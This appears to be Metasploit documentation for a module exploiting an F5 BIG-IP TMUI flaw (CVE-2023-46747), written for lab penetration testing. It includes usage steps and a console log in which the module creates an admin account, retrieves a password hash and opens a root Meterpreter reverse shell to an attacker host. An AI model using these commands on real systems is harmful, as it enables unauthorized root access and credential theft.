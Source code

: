 ## Vulnerable Application

### Description

This module exploits a flaw in F5's BIG-IP Traffic Management User Interface (TMUI) that enables an external,
unauthenticated attacker to create an administrative user. Once the user is created, the module uses the new account to
execute a command payload. Both the exploit and check methods automatically delete any temporary accounts that are
created.

Tested against the VMware OVA release of 16.1.2.1-0.0.10 and 17.0.0.1-0.0.4.

### Setup

Download BIGIP-17.0.0.1-0.0.4.ALL-vmware.ova and import it into your desired virtualization software.

The target does not need to be licensed to be vulnerable.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/f5_bigip_tmui_rce_cve_2023_46747`
4. Set the `RHOST`, `PAYLOAD` and payload-related options
5. Do: `run`
6. You should get a shell.

## Targets

### Command

This executes an OS command on the target device.

## Options

## Scenarios

### F5 BIG-IP 17.0.0.1-0.0.4

```
msf exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > set RHOSTS 192.168.159.32
RHOSTS => 192.168.159.32
msf exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > check
[+] 192.168.159.32:443 - The target is vulnerable.
msf exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[+] Admin user was created successfully. Credentials: UyPzjB - qu0k7MxIzIDlvS
[+] Retrieved the admin hash: $6$gquMefr5$HGA8j7xLzHq2cfZOSudg6g6vETPpHthWOSWJtCtYd1sWRoNGCLnAQKbRvQoRm1QgEm8fC3HfH5tLI9KSSr8M10
[*] Obtained login token: 4TAZKYHLZCHPQX3FC47VWNSEUA
[*] Sending stage (24768 bytes) to 192.168.159.32
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.32:35438) at 2023-11-01 16:36:04 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : f5test2.home.lan
OS           : Linux 3.10.0-862.14.4.el7.ve.x86_64 #1 SMP Thu Jul 14 23:41:24 PDT 2022
Architecture : x64
Meterpreter  : python/linux
meterpreter > pwd
/var/service/restjavad
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > creds
Credentials
===========

host            origin          service                   public  private                                                                                              realm  private_type        JtR Format    cracked_password
----            ------          -------                   ------  -------                                                                                              -----  ------------        ----------    ----------------
192.168.159.32  192.168.159.32  443/tcp (F5 BIG-IP TMUI)  admin   $6$gquMefr5$HGA8j7xLzHq2cfZOSudg6g6vETPpHthWOSWJtCtYd1sWRoNGCLnAQKbRvQoRm1QgEm8fC3HfH5t (TRUNCATED)         Nonreplayable hash  sha512,crypt  

msf exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > 
```
